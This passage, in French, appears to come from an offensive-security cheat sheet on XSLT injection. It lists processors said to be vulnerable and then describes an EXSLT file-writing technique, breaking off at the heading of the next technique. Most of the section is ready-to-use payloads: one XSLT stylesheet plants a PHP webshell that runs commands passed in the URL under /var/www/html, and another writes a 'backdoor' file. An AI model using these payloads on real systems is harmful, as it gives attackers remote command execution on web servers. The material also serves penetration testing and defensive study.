 **Processeurs vulnérables :**

* ✅ xsltproc, PHP, Perl
* ❌ Xalan-C, Xalan-J, Saxon, Python, Ruby
* ❌ Tous les navigateurs modernes (restrictions de sécurité)

***

#### 🎯 Technique 3 : Écriture de fichiers (EXSLT Extension)

**Description :** EXSLT permet d'écrire des fichiers sur le système.

**Payload - Créer un webshell PHP :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exsl="http://exslt.org/common"
  extension-element-prefixes="exsl">
  
  <xsl:template match="/">
    <exsl:document href="/var/www/html/shell.php" method="text">
      &lt;?php system($_GET['cmd']); ?&gt;
    </exsl:document>
    <result>Webshell créé avec succès !</result>
  </xsl:template>
</xsl:stylesheet>
```

**Payload - Créer un fichier malveillant :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common"
  extension-element-prefixes="exploit">
  
  <xsl:template match="/">
    <exploit:document href="backdoor.txt" method="text">
      Contenu malveillant ici
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```

**Note :** Cette technique nécessite que :

* Le processeur supporte EXSLT
* L'application ait les permissions d'écriture
* Le chemin de destination soit accessible

***

#### 🎯 Technique 4 : RCE avec PHP Wrapper
